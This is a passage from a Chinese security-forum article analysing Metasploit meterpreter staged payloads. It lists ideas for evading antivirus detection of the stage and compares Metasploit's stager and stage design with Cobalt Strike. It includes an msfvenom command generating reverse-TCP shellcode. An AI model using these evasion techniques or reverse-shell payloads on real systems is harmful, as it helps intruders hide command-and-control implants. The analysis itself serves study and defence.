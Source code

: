 ### 3、stage免杀

对于payload的stage的免杀存在如下几个思路

- 1、和流量层面绕过一样，我们需要将修补头特征去掉，实现的方式有编码、加密等
- 2、功能代码免杀，这里我们讨论的是meterpreter的 payload，那么对于meterpreter的一些功能，比如其默认是会加载stdapi.dll、priv.dll的，那么基于内存扫描的杀软可能就会根据事件去触发内容扫描，比如基于dll的attach事件，那么这样我们的stage就被检测出恶意。一样msf也考虑到了这一点，在advanced选项里面我们可以通过set autoloadstdapi false来禁止stdapi的加载，这样会造成一些功能用不了比如文件、网络、摄像头等。
- 3、加载方式的的重构，反射dll加载这个方式已经被大部分杀软针对性的检测了，寻找其他的加载方式。。。（貌似和没说一样）

三、一个小发现
-------

笔者使用msf似乎是为了对抗某些对stager的固定的yara规则检测，会随机的将顺序无关代码混淆：

如下左右两边的代码都是由命令生成

`msfvenom -p windows/meterpreter/reverse_tcp lport=4444 lhost=192.168.148.137 -f c`

下图中出现了顺序调换情况：每个绿色框里面都出现了顺序调换：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-1c265d5c9e000dbc58625b99f1d3e1a697f376fd.png)

0x04 结尾
=======

我们不妨来对比下，msf和之前分析的cobaltstrike的异同：cs参考[此文](https://forum.butian.net/share/2017)

首先staged模式下，两者stager的实现shellcode对比：

- msf是通过winapi里面的ws2\_32.dll里面的socket来获取其第二阶段的载荷（stage
- cs是通过winapi里面的winnet.dll里面的http请求来获取第二阶段的载荷（beacon

接着第二阶段的载荷：

- msf中的stage则是直接就是被修补之后的反射dll文件
- cs中的beacon做了一个加密操作，其将被修补的反射dll文件通过简单的异或加密，这样就没有比较明显的pe头特征了

值得的一提的是，两者都是通过反射dll加载的方式，最后在dllmain方法中来实现其c2控制逻辑

笔者才疏学浅，若文中存在错误观点，欢迎斧正。